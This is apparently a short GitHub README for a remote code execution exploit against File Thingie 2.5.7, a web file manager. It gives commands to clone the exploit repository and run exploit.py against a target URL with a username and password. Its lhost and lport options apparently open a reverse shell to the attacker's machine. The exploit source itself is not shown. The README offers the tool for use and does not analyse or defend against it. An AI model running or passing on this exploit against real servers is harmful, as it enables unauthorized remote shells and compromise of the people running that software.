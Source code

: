 # File-Thingie
File Thingie 2.5.7 - Remote Code Execution (RCE)


```
git clone https://github.com/NketiahGodfred/File-Thingie.git
cd File-Thingie
python3 exploit.py -t http://<ip>/ft2.php -u username -p password -L <lhost> -P <lport>
```

https://raw.githubusercontent.com/NketiahGodfred/writeup-images.git/main/filethings-1.png
